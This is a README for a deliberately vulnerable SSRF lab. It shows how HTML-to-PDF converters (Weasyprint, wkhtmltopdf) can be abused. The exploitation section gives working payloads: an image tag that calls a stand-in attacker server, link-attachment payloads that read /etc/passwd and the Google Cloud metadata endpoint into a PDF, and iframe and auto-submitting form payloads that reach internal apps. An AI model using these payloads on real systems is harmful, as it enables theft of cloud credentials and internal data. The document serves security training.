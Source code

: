 # 1.0 SSRF in HTML to PDF converter functionality

<b>Exploitation Difficulty: Easy</b><br>

These are the SSRF scenario based on the fact that when web application accepting the user user input, placing them in HTML and pass the HTML code to "HTML to PDF generator".
<br><br>When HTML code will be processed by the "HTML to PDF generator", HTML code will be evaluated to corresponding representation of that HTML code in web browser.
<br>In this case, if attacker supplied data is not getting senitized or filtered before placing it to HTML code, attacker can trick "HTML to PDF generator" software to access the internal Hosts/domains. 

We have scenarios of 2 "HTML to PDF generator" which allow an attacker to exploit SSRF vulnerability if web application is passing the untrusted user supplied data to HTML code.
<br>These "HTML to PDF generator" are:

    1. Weasyprint 
    2. wkhtmltopdf

<br><b>pdf_ssrf_weasyprint.php</b> is vulnerable script which is using <b>weasyprint</b>.
<br><b>pdf_ssrf_wkhtmltopdf.php</b> is vulnerable script which is using <b>wkhtmltopdf</b>.

<b>1.1 System Requirements:</b>
  
    1. Weasyprint and wkhtmltopdf converter must be installed on the machine.
    2. Web server with PHP support 

<b>1.2.1 Linux based setup: wkhtmltopdf</b>
<br>No change is required. This scripts are developed to work on Linux OS. 

<b>1.2.2 Windows based setup:</b>
<br>Below mentioned changes will be required:


Remove comment syntax from the line no "271" and "272" and make them like this

    $path_pdf_converter='C:\Program Files\wkhtmltopdf\bin\wkhtmltopdf.exe'; /*remove the comment if you want to use it on Windows machine*/
    passthru('"'.$path_pdf_converter.'" -T 0 -R 0 -B 0 -L 0 --orientation Portrait --page-size A4 sample.html output4.pdf'); /*remove the comment if you want to use it on Windows machine*/

Comment out the the line number 273 like this 

    //passthru('xvfb-run wkhtmltopdf -T 0 -R 0 -B 0 -L 0 --orientation Portrait --page-size A4 --quiet sample.html output4.pdf 2>&1');

<b>1.3 Installation</b>

wkthmltopdf
    
    sudo apt-get update
    sudo apt-get install xvfb libfontconfig wkhtmltopdf

weasyprint

As per the OS, follow steps from below mentioned URL to install the weasyprint:

https://weasyprint.readthedocs.io/en/stable/install.html
    

# 2.0 Exploitation


Let's start with exploitation and possible attack vectors to perform SSRF.

<b>2.1 SSRF in Weasyprint HTML to PDF generator</b>

Web application accepting user input via GUI.<br>  
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w1.png?raw=true)

Accepted the user input, placed it inside the HTML code and generated PDF by rendering the HTML code 

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w2.png?raw=true)

After observing such behavior, try with following payloads to confirm whether web application code is vulnerable:

    <h1>test</h1>
    <img src=http://attacker_server_IP/>

If web application is processing the above mentioned payloads, go for below mentioned payloads to exploit SSRF.

<b>Payloads</b>

To grab the data from HTTP based URL, use below mentioned style payload

    <link rel=attachment href="http://web_URL">
    <link rel=attachment href="http://localhost/admin.php">
To grab the data from internal file system, use below mentioned style payload

    <link rel=attachment href="file://internal_file_path">
    <link rel=attachment href="file:///etc/passwd">
<b>2.1.1 Exploiting the SSRF - Google Cloud Metadata endpoint access</b>

Let's assume, web application is hosted inside the Google Cloud Platform. Now, try to grab the data from Google Cloud internal Metadata endpoint.
I saved sample username and password during the creation of the Virtual machine which are accessible on below mentioned URL:
http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes

Below mentioned payload will grab and attach the HTTP response from the above metnioned Metadata URL to PDF:

    <link rel=attachment href="http://metadata.google.internal/computeMetadata/v1beta1/instance/?recursive=true">

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w3.png?raw=true)

Open the generated PDF and observe, nothing is there in customer name column. Download the generated PDF file to extract the data from it.

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w4.png?raw=true)

Extract the attached content from the downloaded PDF file using this Python <a href="https://github.com/incredibleindishell/SSRF_Vulnerable_Lab/blob/master/pdf_generator/weasy.py">Script</a> developed by Ben AKA Nahamsec. 

    python script.py  downloaded_file.pdf
  
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w5.png?raw=true)

And Python script extracted the attached HTTP response from the Internal Metadata URL.

This is how an attacker can extract the HTTP response from other internal IPs/Hosts.

<b>2.2 SSRF in wkhtmltopdf, HTML to PDF generator</b>

An attacker can exploit SSRF in web application using wkhtmltopdf to generate the PDF from HTML having untrusted user supplied data placed in it. 

Web application is accepting user supplied data 
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/wk1.png?raw=true)

Generated PDF has user supplied data.
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/wk2.png?raw=true)

Payload to load internal app rendered HTTP response inside the PDF using <iframe> HTML tag is:
    
    <iframe src="http://internal_app" height=800px width=800px></iframe>

<b>Payload to access the web page which has "X-Frame-Options" header</b> in HTTP response and can not be loaded inside the <iframe> HTML tag.
    
    <body onload="document.createElement('form').submit.call(document.getElementById('myForm'))"><form id="myForm" name="myForm" action="http://internal_app" method=GET></form></body> 

Specify the above mentioned payload and submit the form
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/wk3.png?raw=true)

Open the generated the PDF and there we go....
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/wk4.png?raw=true)


./Thanks

